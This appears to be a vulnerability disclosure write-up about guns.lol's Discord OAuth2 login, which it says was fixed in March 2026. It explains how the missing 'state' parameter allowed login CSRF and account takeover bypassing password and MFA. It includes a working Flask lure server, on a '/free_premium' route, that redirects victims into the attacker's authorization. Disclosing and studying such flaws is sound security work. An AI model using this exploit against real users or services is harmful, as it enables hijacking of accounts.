


## The online gangster got hacked
*Fixed on: 24/03/2026*

[Website](https://guns.lol) | [Discord](https://discord.gg/guns)

This website it's for creating a short link to your bio and other social networks in the form of `https://guns.lol/<you_name>`. Many people uses it to create cool bio pages, but it is also know that some weird people known as "e-gangster" also use it because... `guns.lol` sounds "gangster".

Welp, on this site you can link your Discord account for role syncing in the Discord server and log-in fast.



Clicking this button would send your directly to authorizing the guns.lol application to access your Discord account, to a link like `https://discord.com/oauth2/authorize?client_id=1140632236509642882&response_type=code&redirect_uri=https%3A%2F%2Fguns.lol%2Fapi%2Fdiscord%2Fcallback&scope=identify%20role_connections.write`.

For those won't don't known: Discord uses the [OAuth2](https://oauth.net/2/) protocol for granting access to other applications into accounts. Basically when you hit that "Authorize app" button, a code to identify your grant is used by the external app to get a Bearer access token limited to the scopes that were specified (that list of "This will allow the developer of [app name] to access" are the scopes).

Now, on this protocol is stated that a parameter called `state` *should* be used to uniquely identify the approbation of a user, to prevent cross site attacks... and guns.lol was not using it. What this means, is that there is no difference between the users Discord authorization.

Let's look at the simple process of doing the above process:



As there's no difference between the authorizations, that "Click button" isn't necessary as you can directly request Discord. Now, the code that you got is used to get your account information and link it with the guns.lol profile; again, as there is no difference, whoever enters into that callback link while logged in, will be linked to your Discord account.

Given that you can log-in with Discord, you can log-in to the account of whoever entered your link, completely bypassing the password and MFA.

A Python web server could be coded for this purpose:

```python
import requests
from flask import Flask, redirect

headers = {
    "Authorization":"<DISCORD TOKEN HERE>"
}

data = {
  "guild_id":"<some id>",
  "permissions":"0",
  "authorize":True,
  "integration_type":0,
  "location_context":{
        "guild_id":"10000",
        "channel_id":"10000",
        "channel_type":10000
  }
}

app = Flask(__name__)

@app.route("/free_premium")
def free_premium():
    req = requests.post("https://discord.com/api/v9/oauth2/authorize?client_id=1140632236509642882&response_type=code&redirect_uri=https%3A%2F%2Fguns.lol%2Fapi%2Fdiscord%2Fcallback&scope=identify%20role_connections.write", json=data, headers=headers)
    if req.status_code != 200:
        print(f"Something strange happened while requesting the callback url: {req.text}")
        return "no premium for u", 400

    obj = req.json()
    
    return redirect(obj["location"], 301)


app.run("0.0.0.0", 8000)
```

And here is an example usage of it:

https://github.com/user-attachments/assets/a42e27fe-7368-40e1-8851-b10fe4f651d0

They took some days to fix it.
